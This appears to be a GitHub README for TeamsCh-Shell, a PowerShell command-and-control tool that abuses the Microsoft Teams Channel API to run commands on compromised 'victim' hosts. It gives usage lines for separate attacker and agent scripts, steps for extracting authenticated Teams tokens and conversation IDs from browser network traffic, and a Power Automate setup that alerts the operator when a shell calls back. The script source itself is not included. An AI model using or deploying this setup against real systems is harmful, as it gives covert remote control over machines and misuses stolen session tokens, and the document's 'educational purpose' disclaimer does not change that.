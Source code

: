 # TeamsCh-Shell

## Overview
This project aims to create a lightweight tool that utilizes the Microsoft Teams Channel API to establish command and control over compromised systems with as few prerequisites as possible. The command and control communication solely abuses the Microsoft Teams Channel API, and no Teams desktop app installation is required.

## Workflow

![426539136-3773069b-f6eb-4ad1-b089-97b684ade053](https://github.com/user-attachments/assets/a9914060-c6fb-442b-a4ec-6bafd3b53f48)



 
## Usage
### Agent
```
. ./TeamsCh-Shell-Agent.ps1
TeamsCh-Shell-Agent -Inputconversationid "$Inputconversationid" -Outputconversationid "$Outputconversationid" -token "$token"
```
```
- token                 Authenticated browser token running on Microsoft Teams
- Inputconversationid   Teams Channel conversation ID for receive command
- Outputconversationid  Teams channel conversation ID for the output of the executed command result
- time                  The time interval to check for updated commands in the Teams Channel

Notes: Token expiration time is 24 hours by default
```
### Attacker
```
. ./TeamsCh-Shell-Attacker.ps1
TeamsCh-Shell-Attacker -Inputconversationid "$Inputconversationid" -Outputconversationid "$Outputconversationid" -token "$token"
```
```
- token                 Authenticated browser token running on Microsoft Teams
- Inputconversationid   Teams Channel conversation ID for receive command output
- Outputconversationid  Teams channel conversation ID for the output of the executed command
- time                  The time interval to check for executed command result in the Teams Channel

Notes: Token expiration time is 24 hours by default
```
## Steps to reproduce

1. Create Two Teams Channels:
- One channel is designated for the attacker to transfer system commands that will be received and executed on the victim's host.
> [!NOTE]
> Attacker's Teams token has Read and Write permissions on the channel, while Victim's Teams token has at least Read permission.
- Second channel is used to receive the results of the executed commands from the victim's host, allowing attacker to read the commands results from this channel.
> [!NOTE]  
> Victim's Teams token has Read and Write permissions on the channel, while Attacker's Teams token has at least Read permission.

![2](https://github.com/user-attachments/assets/8b182573-9c9c-4a4b-a00c-326b57ac3c13)
![3](https://github.com/user-attachments/assets/71067e28-06f5-4e06-99a5-a46d7aa8a8f7)


2. Extract token and conversationid of Teams Channels:
- Access the Inspect tool and navigate to the Network tab.
- Send a message in the Teams channel and apply a filter for the keyword 'messages' to filter relevant network traffic.
- Extract the Authenticated Teams token and conversationID from the request.
  
![4](https://github.com/user-attachments/assets/d403b8f8-6b1e-4d63-9590-47b3a0b215e3)


3. Execute TeamsCh-Shell-Attacker.ps1 script on the attacker host and input command:
```
. ./TeamsCh-Shell-Attacker.ps1
TeamsCh-Shell-Attacker.ps1 -token "eyJ0eXAiOiJ***PykNgVhCEjA" -Outputconversationid "19:952***9e@t***2" -Inputconversationid "19:c92***8a@t***2"
```

![image](https://github.com/user-attachments/assets/54550c49-2bde-4a8a-a4fd-b1b208ba515a)


4. Execute TeamsCh-Shell-Agent.ps1 script on the victim host:
```
. ./TeamsCh-Shell-Agent.ps1
TeamsCh-Shell-Agent.ps1 -token "eyJ0eXAiO***Cu9Jp8l3kF70Ug" -Inputconversationid "19:952***9e@t***2" -Outputconversationid "19:c92***8a@t***2"
```

![image](https://github.com/user-attachments/assets/be914ba3-d283-4549-be06-074522170a7e)


5. Shell callback Notification
- Power Automate can set up a condition to check for incoming messages to the channel. If incoming messages are sent to the channel, the condition is triggered, and a notification email will be sent to the inputted email address.

![6](https://github.com/user-attachments/assets/1d23c839-b637-4ade-aed1-baaeca0e4acf)

## Disclaim
san6051 is developed with the intension of using this tool only for educational purpose.
  
## Reference

- [convoC2](https://github.com/cxnturi0n/convoC2) by @cxnturi0n
- [Microsoft-Teams-GIFShell](https://github.com/bobbyrsec/Microsoft-Teams-GIFShell) by @bobbyrsec
- [gifshell-covert-attack-chain-and-c2-utilizing-microsoft-teams-gifs](https://medium.com/@bobbyrsec/gifshell-covert-attack-chain-and-c2-utilizing-microsoft-teams-gifs-1618c4e64ed7) by @bobbyrsec
